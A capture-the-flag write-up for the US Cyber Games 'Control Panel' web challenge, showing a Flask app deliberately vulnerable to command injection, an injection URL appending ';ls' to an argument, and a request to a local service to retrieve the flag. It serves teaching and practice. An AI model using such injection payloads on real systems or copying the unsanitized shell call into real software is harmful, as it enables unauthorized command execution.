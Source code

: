 ```yaml
---
title: US Cyber Games [Season 4] - Control Panel
date: Mon Jun  3 12:37:57 PM EDT 2024
categories: [Writeup]
tags: [ctf,uscybergames,uscybergames2024,web,ssrf]
---
```


## Description

Control Panel [Web]

Agent, we've identified what appears to be ARIA's control panel. Luckily there's no authentication required to interact with it. Can you take down ARIA once and for all?

[https://uscybercombine-s4-control-panel.chals.io/](https://uscybercombine-s4-control-panel.chals.io/)

[control-panel.zip](https://ctfd.uscybergames.com/files/d610c5bfacbc496adf06f2207ee24a34/control-panel.zip?token=eyJ1c2VyX2lkIjozMDg2LCJ0ZWFtX2lkIjpudWxsLCJmaWxlX2lkIjoyNzV9.Zl3tig.qyARp0vI5Nivy8AFv9FptmBzKNg)

![Control Panel](/assets/images/USCyberGames/2024/Control Panel.png)

## Solution

We are given source code:
```python
from flask import Flask, render_template, request
from subprocess import getoutput

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    command = request.args.get("command")
    if not command:
        return render_template("index.html")
    
    arg = request.args.get("arg")
    if not arg:
        arg = ""

    if command == "list_processes":
        return getoutput("ps")
    elif command == "list_connections":
        return getoutput("netstat -tulpn")
    elif command == "list_storage":
        return getoutput("df -h")
    elif command == "destroy_humans":
        return getoutput("/www/destroy_humans.sh " + arg)
    
    return render_template("index.html")
```

`destroy_humans` command introduces Command Injection vulnerability. Anything passed to `getoutput` get's executed as shell command. We can add `;` to add new command like `ls`:

view-source:https://uscybercombine-s4-control-panel.chals.io/?command=destroy_humans&arg=;ls
```bash
Destroy Humans option selected. Please choose 'check_status' or 'destroy_humans'.
challenge
destroy_humans.sh
run.py
```

There doesn't seem to be a flag on server, or rather it's in `/root`

**supervisord.conf**:
```ini
[supervisord]
user=root
nodaemon=true
logfile=/dev/null
logfile_maxbytes=0
pidfile=/run/supervisord.pid

[program:controlpanel]
command=python3 /www/run.py
autostart=true
user=guest
priority=1001
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:destroyer]
command=python3 /root/destroyer.py
autostart=true
user=root
priority=1001
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

There are 2 applications, first is what we are connected to and second is server destroyer which is ran from root.

The app doesn't have access to `/root`
![Control Panel-1](/assets/images/USCyberGames/2024/Control Panel-1.png)

**destroyer.py**:
```python
#!/usr/bin/env python3
import subprocess, json
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

def get_json(content):
	return json.dumps(content).encode()

def http_server(host_port,content_type="application/json"):
	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			def resp_ok():
				self.send_response(200)
				self.send_header("Content-type", content_type)
				self.end_headers()
			if self.path == '/status':
				resp_ok()
				self.wfile.write(get_json({'status': 'ready to destroy'}))
				return
			elif self.path == "/destroy":
				resp_ok()
				self.wfile.write(get_json({'status': "destruction complete!"}))
				return
			elif self.path == '/shutdown':
				resp_ok()
				self.wfile.write(get_json({'status': 'shutting down...'}))
				self.wfile.write(get_json({'status': 'SIVBGR{no-flag-4-u}'}))
				return
			self.send_error(404, '404 not found')
		def log_message(self, format, *args):
			pass
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()

http_server(('127.0.0.1',3000))
```

`http://127.0.0.1:3000/shutdown` should give us a flag

![Control Panel-2](/assets/images/USCyberGames/2024/Control Panel-2.png)

> Flag: **SIVBGR{g00dby3_ARI4}**
{: .prompt-tip }
